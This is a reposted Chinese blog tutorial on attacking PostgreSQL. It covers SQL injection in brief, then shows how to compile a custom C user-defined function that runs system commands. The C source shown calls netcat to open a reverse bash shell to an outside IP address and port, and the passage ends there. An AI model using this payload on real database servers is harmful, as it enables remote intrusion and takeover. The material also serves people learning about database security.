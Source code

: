## 大对象攻击 - Hacking PostgreSQL 
##### [TAG 6](../class/6.md)
            
### 作者           
digoal            
            
### 日期          
2016-10-18             
            
### 标签          
PostgreSQL , sql注入 , ssrf , PostgreSQL , hacking           
            
----          
            
本文为转载文章，原文地址  
   
http://www.cnblogs.com/Yinxinghan/p/Hacking_PostgreSQL.html  
  
## 背景
这篇文章主要讲解了如何 Hacking PostgreSQL 数据库，总结了一些常用方法。   
  
## SQL 注入
大体上和 MySQL 差不多，有一些变量不一样。    
  
具体就不再举例，可以看这篇总结：PostgreSQL SQL Injection Cheat Sheet。   
    
此外，利用 sqlmap 也是一个不错的方式。   
    
## 执行命令
### C
sqlmap 给出的几个 UDF 在我本地测试并不成功，所以最好的方法是自己编译一个动态链接库。  
  
根据官方文档，我们要定义一个 PG_MODULE_MAGIC。  
  
大概是 PostgreSQL 的安全机制，在 8.2 以后需要验证这个 magic block，不然，在加在动态链接库的时候会报错：   
  
```
ERROR:  incompatible library "xxx.so": missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
  
执行系统命令的动态链接库源码为：   
  
```
 1 #include "postgres.h"
 2 #include "fmgr.h"
 3 #include <stdlib.h>
 4 
 5 #ifdef PG_MODULE_MAGIC
 6 PG_MODULE_MAGIC;
 7 #endif
 8 
 9 text *exec()
10 {
11     system("nc -e /bin/bash 10.211.55.2 9999");
12 }
```
   